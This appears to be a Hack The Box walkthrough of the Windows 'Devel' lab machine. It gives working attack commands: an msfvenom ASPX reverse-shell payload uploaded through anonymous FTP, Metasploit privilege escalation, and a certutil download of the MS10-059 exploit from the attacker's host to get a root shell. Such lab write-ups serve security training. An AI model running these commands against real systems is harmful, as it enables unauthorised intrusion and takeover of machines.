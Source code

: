 ```yaml
---
title: Devel Hack The Box Walkthrough
published: 2023-07-17
description: ''
image: './1.png'
tags: ['htb','easy']
category: 'Walkthroughs'
draft: false 
---
```


Scan Using nmap

```bash
nmap -sV -sC -oA nmap/scan 10.10.10.5  
```

```
┌──(kali㉿kali)-[~/Documents/HTB/devel]
└─$ nmap -sV -sC -oA nmap/scan 10.10.10.5  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 15:11 EDT
Nmap scan report for 10.10.10.5
Host is up (0.20s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.39 seconds

```

We have a web page and a ftp server

![](./1.png)

It seems both the webserver and the ftp is liked. So let's upload a file in ftp and run it through port 80 it is running 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.21 LPORT=4444 -f aspx > exploit.aspx
```

![](./2.png)

set up the metasploit reverse listener

![alt text](<Pasted image 20230716011237.png>)

Now run the exploit by going to the /exploit.aspx

![alt text](<Pasted image 20230716011312.png>)

alt textrun local_exploit_suggester

```
run post/multi/recon/local_exploit_suggester
```

![alt text](<Pasted image 20230716022320.png>)

![alt text](<Pasted image 20230716022509.png>)

let's use a the 2 exploit

Background your meterpreter shell

```
background
```

```
meterpreter > background
[*] Backgrounding session 4...
```

use the exploit

```
use exploit/windows/local/ms10_015_kitrap0d
```

set lhost, session, lport and run the shell

![alt text](<Pasted image 20230716023643.png>)

Manual Exploit

create a reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx > exploit.aspx
```


Run the exploit and get a net cat reverse shell

![alt text](<Pasted image 20230717091637.png>)


MS10-059 Exploit - [Github](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri)
download the exe and upload it to the server via certutil and python http server

![alt text](<Pasted image 20230717093449.png>)

```powershell
certutil -urlcache -f http://10.10.14.7/MS10-059.exe exploit.exe
```

![alt text](<Pasted image 20230717095101.png>)

Now run the exploit and listen for the incoming root shell

```powershell
exploit.exe 10.10.14.7 1337
```

![alt text](<Pasted image 20230717095705.png>)

![alt text](<Pasted image 20230717095734.png>)